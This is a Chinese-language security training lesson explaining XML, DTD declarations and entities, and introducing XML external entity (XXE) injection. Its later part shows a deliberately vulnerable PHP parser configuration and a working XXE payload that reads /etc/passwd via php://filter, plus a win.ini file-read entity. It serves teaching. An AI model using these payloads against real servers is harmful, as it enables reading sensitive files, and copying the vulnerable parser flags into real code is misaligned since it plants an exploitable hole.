# 护网行动红蓝攻防教程：P42：web安全-18.XML基础、DTD基础、XXE简介 📖





在本节课中，我们将要学习XML外部实体注入攻击的基础知识。课程将首先介绍XML语言和DTD文档类型定义的核心概念，为理解XXE漏洞的原理打下基础。我们会通过简单的示例和代码，帮助初学者掌握这些必备技能。

## XML基础

XML是一种用于标记电子文件，使其具有结构性的可扩展标记语言。它的形式与HTML语言类似，但XML没有固定的标签，所有标签都可以自定义。XML设计的宗旨是传输数据，而非像HTML一样用于前端显示。

接下来我们看看程序处理XML的流程。


左边流程图展示了XML文档的生成与发送过程：先生成一个XML文档，然后通过HTTP协议发送给服务端。服务端接收请求后，会使用其XML解析库进行解析，解析后可能将数据回显给客户端或进行其他处理。右边截图展示了一个实际的POST请求，其请求体中包含了XML格式的数据。

### XML文档结构

一个XML文档通常包含声明、文档类型定义和文档元素。以下是其基本结构的说明。







```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "Note.dtd">
<book id="1">
  <name>XML Guide</name>
  <author>John Doe</author>
  <year>2023</year>
  <price>39.95</price>
</book>
```





*   **第一行 `<?xml ...?>`**：这是XML声明，表明该文档是XML文档，并指定版本和编码（如UTF-8）。
*   **`<!DOCTYPE ...>`**：这是可选的文档类型定义（DTD），用于为XML文档定义约束。
*   **`<book>` 元素**：这是文档的根元素，其属性 `id` 的值为“1”。根元素内包裹了四个子元素（`name`, `author`, `year`, `price`），描述了这本书的信息。







XML文档必须遵循以下语法规则：
1.  必须有一个根元素（如上述的 `<book>`）。
2.  所有元素必须有关闭标签（即闭合标签）。
3.  标签对大小写敏感（`<Author>` 和 `</author>` 不匹配会导致错误）。
4.  元素必须被正确地嵌套。
5.  属性值必须加引号。

## DTD基础

上一节我们介绍了XML的基本结构，本节中我们来看看DTD。DTD（文档类型定义）用于为XML文档定义语义约束。我们可以把DTD理解为一个模板，它定义了用户自定义的根元素、子元素及其合法值。XML文档需要以DTD为模板进行规范化。



### DTD声明方式

DTD声明有两种方式：内部声明和外部声明。

**内部DTD声明**：直接写在XML文档内部。



```xml
<?xml version="1.0"?>
<!DOCTYPE book [
  <!ELEMENT book (name, author, year, price)>
  <!ELEMENT name (#PCDATA)>
  <!ELEMENT author (#PCDATA)>
  <!ELEMENT year (#PCDATA)>
  <!ELEMENT price (#PCDATA)>
]>
<book>
  <name>XML Guide</name>
  <author>John Doe</author>
  <year>2023</year>
  <price>39.95</price>
</book>
```







**外部DTD声明**：通过SYSTEM关键字引入外部的DTD文件。



```xml
<?xml version="1.0"?>
<!DOCTYPE book SYSTEM "http://192.168.1.239/book.dtd">
<book>
  <name>XML Guide</name>
  <author>John Doe</author>
  <year>2023</year>
  <price>39.95</price>
</book>
```

其中，外部文件 `book.dtd` 的内容可能包含类似 `<!ELEMENT book (name, author, year, price)>` 的定义。

### PCDATA 与 CDATA

在DTD中定义元素类型时，会用到 `#PCDATA` 和 `CDATA`。

*   **`#PCDATA`**：表示可解析的字符数据。解析器会检查其中的文本和实体。如果数据中包含 `<`、`&` 等特殊字符，需要使用预定义实体（如 `&lt;` 代表 `<`，`&amp;` 代表 `&`）进行替换，否则解析会出错。
*   **`CDATA`**：表示不应由XML解析器进行解析的文本数据，其中的所有内容都会被解析器忽略。其语法由 `<![CDATA[` 开始，以 `]]>` 结束。CDATA部分中不能包含字符串 `]]>`，也不允许嵌套。

CDATA的用途在于，当我们需要读取的文件内容中包含大量特殊字符（如 `<`, `&`）时，可以将其包裹在CDATA块中，避免解析错误，从而顺利回显文件内容。这在后续的XXE利用中会用到。



## DTD实体







理解了DTD的基本概念后，本节我们重点学习DTD实体，这是理解XXE漏洞的关键。实体可以看作是一种定义变量并在文档中引用的方式。

### 内部普通实体







内部普通实体在DTD内部定义和赋值，在文档元素中通过 `&实体名;` 的格式引用。





```xml
<!DOCTYPE test [
  <!ENTITY hello "World">
]>
<greeting>Hello &hello;</greeting>
```
解析后，`<greeting>` 元素的内容将是 `Hello World`。



**注意**：如果实体被多层嵌套、大量引用，可能会导致指数级的数据膨胀，消耗服务器大量资源进行解析，从而可能造成拒绝服务攻击。

### 外部普通实体

外部普通实体通过 `SYSTEM` 或 `PUBLIC` 关键字引入外部资源。这是XXE攻击的核心。

```xml
<!DOCTYPE test [
  <!ENTITY file SYSTEM "file:///c:/windows/win.ini">
]>
<content>&file;</content>
```
上述DTD定义了一个外部实体 `file`，其内容来自 `file:///c:/windows/win.ini` 这个本地文件。在文档中引用 `&file;` 后，如果服务器存在XXE漏洞且未做防护，就可能将 `win.ini` 文件的内容回显出来。

不同语言在解析XML时支持不同的协议。以下是常见协议示例：

| 语言/环境 | 支持协议示例 | 说明 |
| :--- | :--- | :--- |
| PHP | `file://`, `http://`, `php://filter` | `php://filter/read=convert.base64-encode/resource=file.txt` 可用于Base64编码读取文件，避免特殊字符问题。 |
| Java | `file://`, `http://`, `ftp://` | |
| .NET | `file://`, `http://` | |

**利用演示**：以下是一个存在XXE漏洞的PHP代码示例及利用过程。






漏洞代码片段（PHP）：
```php
<?php
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;
?>
```
攻击Payload：
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<user>&file;</user>
```
通过发送此XML数据，可以尝试读取服务器上的 `/etc/passwd` 文件，并以Base64编码形式回显。



## XXE漏洞简介与危害

通过前面的学习，我们已经了解了XML和DTD实体。现在，我们可以将这些知识串联起来理解XXE漏洞。XXE（XML External Entity Injection）即XML外部实体注入。当应用程序解析用户可控的XML输入时，如果没有禁止或严格过滤外部实体的加载，攻击者就可以构造恶意的外部实体，导致安全风险。

XXE漏洞的主要危害包括：
1.  **读取任意文件**：利用 `file://` 协议读取服务器上的敏感文件，如配置文件、源代码、系统文件等。
2.  **内网探测与SSRF**：利用 `http://` 等协议，构造请求探测内网服务或进行服务器端请求伪造攻击。
3.  **拒绝服务攻击**：通过构造嵌套的巨型实体引用，消耗服务器资源。
4.  **远程代码执行**：在特定条件下，如果服务器环境安装了某些扩展（如PHP的expect扩展），可能实现远程命令执行。

## 总结



本节课中我们一起学习了XML和DTD的基础知识，并初步了解了XXE漏洞的原理。我们掌握了XML文档的结构与语法、DTD的内部与外部声明方式，以及最重要的DTD实体（特别是外部普通实体）的概念和利用方法。通过简单的代码示例，我们看到了如何利用外部实体读取服务器文件，这构成了XXE攻击的基础。下节课我们将深入探讨更复杂的参数实体和盲注XXE等高级利用技巧。